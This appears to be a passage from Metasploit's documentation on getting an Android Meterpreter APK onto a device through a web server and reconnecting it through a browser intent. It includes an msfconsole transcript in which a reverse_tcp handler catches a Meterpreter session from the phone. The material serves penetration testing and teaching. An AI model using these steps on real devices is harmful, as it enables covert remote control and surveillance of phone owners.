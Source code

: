 One way to upload an APK to Android without adb is by hosting it from a web server. To do this,
you must make sure to allow to trust "Unknown sources". The way to do this varies, but normally
it's something like this: Settings -> Security -> Check "Unknown Sources"

Once you have that changed, you'll need to:

1. Generate the APK payload.
2. Start a web server from the directory where the payload is: `ruby -run -e httpd . -p 8181`
3. On your Android device, open a browser, and download the APK.
4. You should be able to find the APK from the Downloads folder, install it.
5. After installation, you will have to manually execute it.

**Reconnect Android Meterpreter from the Browser Remotely**

When you have the APK payload installed on your Android device, another trick to reconnect it is to
launch an intent from a browser. An intent is simply a term in Android development that means "an operation to be performed."

Here's how you do this:

1. In `msfconsole`, start a `multi/handler` for `android/meterpreter/reverse_tcp` as a background job.
2. Do: `auxiliary/server/android_browsable_msf_launch`.
3. Set the URIPATH if needed.
4. Do: `run`. At this point, the web server should be up.
5. On your Android device, open the native web browser, and go the URL generated by the auxiliary
   module.
6. The Android handler should get a session like the following demo:

```
msf > use exploit/multi/handler 
msf exploit(handler) > set PAYLOAD android/meterpreter/reverse_tcp
PAYLOAD => android/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.199
LHOST => 192.168.1.199
msf exploit(handler) > set EXITONSESSION false
EXITONSESSION => false
msf exploit(handler) > run -j
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.1.199:4444 
msf exploit(handler) > [*] Starting the payload handler...

msf exploit(handler) > use auxiliary/server/android_browsable_msf_launch
msf auxiliary(android_browsable_msf_launch) > set URIPATH /test
URIPATH => /test
msf auxiliary(android_browsable_msf_launch) > run

[*] Using URL: http://0.0.0.0:8080/test
[*] Local IP: http://192.168.1.199:8080/test
[*] Server started.
[*] Sending HTML...
[*] Sending stage (62432 bytes) to 192.168.1.207
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.207:47523) at 2016-03-08 15:09:25 -0600
```
